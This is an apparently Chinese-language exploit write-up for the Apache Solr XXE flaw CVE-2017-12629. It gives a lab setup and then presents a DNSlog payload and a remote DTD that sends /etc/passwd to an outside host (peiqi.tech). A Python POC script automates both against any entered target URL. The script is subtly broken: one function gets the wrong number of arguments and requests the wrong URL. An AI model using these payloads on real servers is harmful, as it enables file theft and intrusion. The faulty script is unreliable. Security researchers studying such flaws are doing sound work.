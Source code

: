 ```yaml
---
title: Apache Solr XXE 漏洞 CVE-2017-12629
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web服务器漏洞
 - Apache
---
```


# Apache Solr XXE 漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

## 影响版本

Apache Solr < 7.1
Apache Lucene < 7.

### 环境搭建

```
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## 漏洞复现

### Dnslog

先请求url地址获取 core 内容 

http://xxx.xxx.xxx.xxx:8983/solr/admin/cores

![](/img/20210924015630474970.png)

访问 

```
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

![](/img/20210924015630615897.png)

查看dnslog得到请求

![](/img/20210924015631784417.png)

### 远程读取文件

在自己的服务器上写入一个可访问的XML文件，内容写入

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件

```
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fpeiqi.tech%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```

![](/img/20210924015631949789.png)

> [!NOTE]
>
> 注意这里的payload进行了url编码,请求的文件为 http://peiqi.tech/1.dtd，有更多需求自行更改写入的xml文件



### 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json
import random

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 7.1                                        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2017-12629-xxe.py                             \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983                            \033[0m')
    print('+  \033[36mcmd    >>> dnslog地址(漏洞外连检测)                                  \033[0m')
    print('+  \033[36mCmd    >>> xxe_file(读取/etc/passwd)                               \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url):
    dns_payload = """
        /solr/%s/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "%s"><a></a>'}&wt=xml
        """ % (core_name, dnslog_url)

    vuln_url = target_url + dnslog_url
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
        if "HTTP ERROR 500" in response.text:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
        else:
            print("\033[32m[o] 请查看dnslog响应 \033[0m")
    except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name):
    file_payload = """/solr/{}/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fpeiqi.tech%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser""".format(core_name)
    vuln_url = target_url + file_payload

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }

    response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
    if "/usr/sbin" in response.text:
            print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)
    else:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)

    while True:
        n = random.randint(1, 9999)
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        elif cmd == "dnslog":
            dnslog_url = str(input('\033[35m请输入你的dnslog地址：\033[0m'))
            POC_2(target_url, core_name, dnslog_url, n)
        elif cmd == "xxe_file":
            POC_3(target_url, core_name)

```

![](/img/20210924015632118808.png)